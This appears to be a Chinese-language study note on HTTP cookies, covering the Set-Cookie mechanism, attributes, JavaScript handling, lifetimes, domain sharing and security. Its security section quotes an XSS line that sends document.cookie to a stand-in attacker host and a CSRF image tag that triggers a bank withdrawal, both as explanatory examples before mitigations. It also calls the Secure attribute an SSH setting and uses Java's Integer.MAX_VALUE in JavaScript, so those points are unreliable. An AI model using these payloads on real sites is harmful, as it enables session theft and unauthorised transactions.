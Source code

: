 ## Cookie的总结

### Cookie的介绍

HTTP Cookie是**服务器发送到用户浏览器并保存在本地**的一小块数据，**它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。**

通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie 使基于**无状态**的HTTP协议记录稳定的状态信息成为了可能。

[^无状态]:当一个客户端向服务器端发出请求，服务器返回响应（Response）后连接就被关闭了，在服务器端不保留连接的有关信息，这就是无状态



### Cookie的特点

Cookie 一般用于存储少量的不太敏感的数据（数据不安全）

浏览器对于单个 Cookie 的大小有限制(4kb)以及对同一个域名下的总 Cookie 数量也有限制(20个)（少量数据）



### Cookie的应用场景

cookie一般用来储存登入状态，即可以在不登录的情况下，完成服务器对客户端的身份识别

更多场景如下：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）



### Cookie的机制

当用户第一次访问并登陆一个网站的时候，cookie的设置以及发送会经历以下4个步骤：

![](./img/cookie机制.jpg)



1.  客户端发送一个请求到服务器         //场景：如第一次登入博客
2. 服务器发送一个HttpResponse响应到客户端，其中包含Set-Cookie的头部，客户端保存cookie    //第一次登入成功
3.  之后向服务器发送请求时，HttpRequest请求中会包含一个Cookie的头部   //第二次进入博客
4. 服务器返回响应数据                       //无需登入，即可进入正式页面



##### 后端代码验证

```java
//java代码
protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
  Cookie cookie = new Cookie("mcrwayfun",System.currentTimeMillis()+"");
  // 设置生命周期为MAX_VALUE
  cookie.setMaxAge(Integer.MAX_VALUE);
  //并将其加入到了HttpResponse对象中
  resp.addCookie(cookie);
}
```

![](./img/后端验证图片.jpg)

可以看到确实如cookie机制中步骤2、3



### Cookie的使用

#### Cookie的属性

| 属性项     | 属性项介绍                                                   |
| :--------- | :----------------------------------------------------------- |
| NAME=VALUE | 键值对，可以设置要保存的 Key/Value，注意这里的 NAME 不能和其他属性项的名字一样 |
| maxAge     | cookie的失效时间，单位秒，如果为整数，则在maxAge秒后失效；为-1则是临时cookie，关闭浏览器即失效；为0表示删除该cookie。默认为 -1 。    **比Expires好用** |
| Expires    | 过期时间，在设置的某个时间点后该 Cookie 就会失效             |
| Domain     | 生成该 Cookie 的域名，如 domain="[www.baidu.com](http://www.baidu.com)" |
| Path       | 该 Cookie 是在当前的哪个路径下生成的，如 path=/wp-admin/     |
| Secure     | 如果设置了这个属性，那么只会在 SSH 连接时才会回传该 Cookie   |
| SameSite   | 允许服务器要求某个 cookie 在跨站请求时不会被发送  <br /><br />1.  SameSite=None 浏览器会在同站请求、跨站都发送 cookies<br />2.  SameSite=Strict 浏览器将只在相同站点时发送 cookie<br />3. SameSite=Lax  与**Strict**类似，但用户从外部链接导航至URL时除外 |
| httpOnly   | 如果给某个cookie设置了httpOnly属性，则无法通过JS脚本读取到该cookie的信息，但还是能通过Application 中手动修改cookie，所以只是在一定程度上可以防止XSS攻击，不是绝对的安全 |



#### Cookie的使用方法

* 读取 Cookie

  `var x = document.cookie;`

* 修改 Cookie

  `document.cookie="username=John Smith; expires=Thu, 18 Dec 2043 12:00:00 GMT; path=/";`

* 删除 Cookie

  删除cookie只需要设置 expires 参数为以前的时间即可（注意，删除时不必指定 cookie 的值）

  `document.cookie = "username=; expires=Thu, 01 Jan 1970 00:00:00 GMT";`

  

#### Cookie的有效期

Cookie 的有效期有两种方式定义

* 会话期 Cookie：浏览器关闭之后它会被自动删除     //不指定过期时间（`Expires`）或者有效期（`Max-Age`），即为会话题Cookie
* 持久性Cookie：设置了过期时间（`Expires`）或有效期（`Max-Age`）

##### Expires的使用方式

```js
document.cookie="username=John Doe; expires=Thu, 18 Dec 2043 12:00:00 GMT";
```

##### Max-Age的使用方式

```js
// 设置生命周期为MAX_VALUE，永久有效
document.cookie="username=John Doe; max-age="+Integer.MAX_VALUE;
// 设置生命周期为-1 ,会话期内有效
document.cookie="username=John Doe; max-age= -1";
// 设置生命周期为 0 ,用完之后立马被删除！
document.cookie="username=John Doe; max-age= 0";
```





### Cookie的问题

#### Cookie在不同的项目中能不能共享？

> 在同一个 Tomcat 服务器中，部署了多个 Web 项目，那么在这些 Web 项目中 Cookie 能不能共享？

默认情况下 Cookie 不能共享，如果要在不同项目中共享，则可以将path设置为  “/”



> 不同的 Tomcat 服务器间 Cookie 能不能共享？

setDomain(String path)：如果设置一级域名相同，那么多个服务器之间 Cookie 可以共享

如：setDomain(".baidu.com")，那么 tieba.baidu.com 和 news.baidu.com 中 Cookie 可以共享



#### Cookie 能不能存储中文？

在 Tomcat 8 之前，Cookie 中不能直接存储中文数据。
在 Tomcat 8 之后，Cookie  支持中文数据。但特殊字符（如空格）还是不支持，建议使用 URL 编码存储，URL 解码解析。



### Cookie安全

####  会话劫持和 XSS

在 Web 应用中，Cookie 常用来标记用户或授权会话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 [XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting) 攻击。

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

#### 跨站请求伪造（CSRF）

在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

```js
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

当你打开含有了这张图片的 HTML 页面时，如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。



####  缓解Cookie攻击的方法

- 使用 `HttpOnly` 属性可防止通过 JavaScript 访问 cookie 值。
- 用于敏感信息（例如身份验证）的 Cookie 的生存期应设置较短，并且 `SameSite` 属性设置为`Strict` 或 `Lax`，防止跨域请求发送Cookie。